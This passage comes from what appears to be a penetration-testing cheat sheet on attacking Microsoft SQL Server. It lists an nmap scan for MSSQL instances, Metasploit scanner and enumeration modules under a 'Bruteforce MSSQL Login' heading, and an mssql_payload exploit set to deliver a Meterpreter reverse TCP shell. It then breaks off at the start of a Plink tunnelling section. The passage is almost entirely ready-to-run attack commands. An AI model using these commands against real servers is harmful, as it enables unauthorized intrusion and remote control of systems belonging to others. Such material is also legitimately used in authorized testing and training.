 :::: {.language-plaintext .highlighter-rouge}
::: highlight
<pre class="highlight"><code>nmap -sU --script=ms-sql-info 192.168.1.108 192.168.1.156
</code></pre>
:::
::::

<p>
Metasploit:
</p>

:::: {.language-plaintext .highlighter-rouge}
::: highlight
<pre class="highlight"><code>msf &gt; use auxiliary/scanner/mssql/mssql_ping
</code></pre>
:::
::::

::: {.note .tip}
<h5>
Use MS SQL Servers Browse For More
</h5>
<p>
Try using "Browse for More" via MS SQL Server Management Studio
</p>
:::

<h4 id="bruteforce-mssql-login">
Bruteforce MSSQL Login
</h4>

:::: {.language-plaintext .highlighter-rouge}
::: highlight
<pre class="highlight"><code>msf &gt; use auxiliary/admin/mssql/mssql_enum
</code></pre>
:::
::::

<h4 id="metasploit-mssql-shell">
Metasploit MSSQL Shell
</h4>

:::: {.language-plaintext .highlighter-rouge}
::: highlight
<pre class="highlight"><code>msf &gt; use exploit/windows/mssql/mssql_payload
msf exploit(mssql_payload) &gt; set PAYLOAD windows/meterpreter/reverse_tcp
</code></pre>
:::
::::

<h2 id="network">
Network
</h2>
<h3 id="plinkexe-tunnel">
Plink.exe Tunnel
</h3>
<p>
PuTTY Link tunnel
</p>
<p>
Forward remote port to local address:
</p>
